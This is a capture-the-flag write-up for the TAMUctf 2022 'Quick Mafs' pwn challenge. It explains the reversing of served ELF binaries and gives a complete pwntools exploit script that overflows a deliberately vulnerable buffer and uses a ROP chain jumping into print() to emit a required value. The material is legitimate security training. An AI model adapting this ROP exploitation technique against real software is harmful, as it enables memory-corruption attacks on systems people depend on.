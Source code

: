 ## Quick Mafs

was an pwn challenge from TAMUctf 2022.

It's type of challenge that is called automatic exploit generator, a mix of coding and pwning challenge.

A server where we connect send us a succession of elf binaries, (as hexadecimal dump).

We have to quickly analyze them and exploit them. That's a classic type of challenge.

so how to start..?

well we will first download some of the binaries sent by the server, save them, and analyze them.

Let's see by how much they vary, and reverse them.

In the case of this challenge the authour told us there is a print function function to call, and each time indicate us a value to put in `eax` before calling print.

That's the condition to achieve for each binaries, and the will be five of them.

let's reverse somes of the provided binaries, there is the `vuln()` function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Quick.Mafs/pics/reverse1.png)

you can see in the vuln function,

that there is an intended buffer overflow of 0x2000 bytes, read directly at `rsp` address.

where we will put our ROP payload.

now let's have a look at `print()` function:

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Quick.Mafs/pics/reverse2.png)

we can see in the print function that the `eax` value is saved on stack,

then it's two first lsb (16bit value so), are written to stdout as a raw 16 bit value..

then the program exits..

The problem is that there are no simple gadget to set `eax` to the desired value..

instead, each binaries provided by the servers, included hundreds or arithmetical gadgets, based on `ax`, and the various values pointed by `rbx` register

The intended solution seems to be to use a sort of solver like z3, or angr eventually, to set `eax` to the given values,

by using theses arithmetic gadgets...

That's probably possible, z3 can do "miracles",  but is too much complicated...

so instead of this we will use a serie of gadgets 

so set first `rdx` to 2,  to output the 2 bytes containing the required value, but without passing via the `eax` register.

we will put the given value to be returned , at the end of our payload (on stack so),

then we will jump in the middle of the `print()` function, precisely at the address `0x40179b`

![](https://github.com/nobodyisnobody/write-ups/raw/main/TamuCTF.2022/pwn/Quick.Mafs/pics/gadget.png)

like this, we will output directly the 2 last bytes to stdout...as required...

so here is the exploit


```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*
from pwn import *
import binascii

context.update(arch="amd64", os="linux")
context.log_level = 'info'

p = remote("tamuctf.com", 443, ssl=True, sni="quick-mafs")

for binary in range(5):
  p.recvuntil('rax = ',drop=True)
  rax = int(p.recvuntil('\n',drop=True),16)
#  instructions = p.recvline() # the server will give you instructions as to what your exploit should do
#  print(instructions)
  temp = p.recvuntil('\n',drop=True)
  elf = binascii.unhexlify(temp)
  with open("elf", "wb") as file:
    file.write(elf)

  exe = ELF('./elf')

  gadget3 = 0x000000000040122c # pop rdx ; add byte ptr [rsi + 0x2b], etc...

  # we will use this code as a gadget indeed
  '''
   0x000000000040179b <+12>:    mov    rsi,rsp
   0x000000000040179e <+15>:    mov    rdi,0x1
   0x00000000004017a5 <+22>:    mov    rax,0x1
   0x00000000004017ac <+29>:    syscall
   0x00000000004017ae <+31>:    mov    rdi,0x0
   0x00000000004017b5 <+38>:    mov    rax,0x3c
   0x00000000004017bc <+45>:    syscall
   0x00000000004017be <+47>:    nop
   0x00000000004017bf <+48>:    pop    rbp
   0x00000000004017c0 <+49>:    ret
  '''
  # set rdx = 2
  prelude = p64(0xdeadbeef)+p64(gadget3)+p64(2)
  prelude += p64(0x000000000040179b)
  # convert payload to hexa string and wanted value
  payload = binascii.hexlify(prelude + p16(rax))
  p.sendline(payload)
p.interactive()
```

*nobodyisnobody still pwning things...*
